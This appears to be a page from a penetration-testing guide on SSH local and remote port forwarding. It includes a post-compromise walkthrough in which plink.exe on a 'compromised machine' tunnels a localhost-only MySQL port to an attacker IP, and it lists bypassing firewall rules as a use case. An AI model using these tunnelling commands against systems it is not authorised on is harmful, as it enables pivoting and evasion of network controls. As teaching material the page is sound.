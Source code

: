 **Use cases**

* You want to encrypt traffic that uses unencrypted protocols. Like VNC, IMAP, IRC.
* You are on a public network and want to encrypt all your http traffic.
* You want to bypass firewall rules.

#### Local port forwarding

Now facebook will be available on address localhost:8080.

```text
ssh -L 8080:www.facebook.com:80 localhost
```

You can also forward ports like this:

```text
ssh username@<remote-machine> -L localport:target-ip:target-port

ssh username@192.168.1.111 -L 5000:192.168.1.222:5000
```

Now this port will be available on your localhost. So you go to:

```text
nc localhost:10000
```

#### Remote port forwarding

Remote port forwarding is crazy, yet very simple concept. So imagine that you have compromised a machine, and that machine has like MYSQL running but it is only accessible for localhost. And you can't access it because you have a really crappy shell. So what we can do is just forward that port to our attacking machine. The steps are as following:

Here is how you create a remote port forwarding:

```text
ssh <gateway> -R <remote port to bind>:<local host>:<local port>
```

By the way, plink is a ssh-client for windows that can be run from the terminal. The ip of the attacking machine is **111.111.111.111**.

**Step 1** So on our compromised machine we do:

```text
plink.exe -l root -pw mysecretpassword 111.111.111.111 -R 3307:127.0.0.1:3306
```

**Step 2** Now we can check netstat on our attacking machine, we should see something like this:

```text
tcp        0      0 127.0.0.1:3307          0.0.0.0:*               LISTEN      19392/sshd: root@pt
```

That means what we can connect to that port on the attacking machine from the attacking machine.

**Step 3** Connect using the following command:

```text
mysql -u root -p -h 127.0.0.1 --port=3307
```
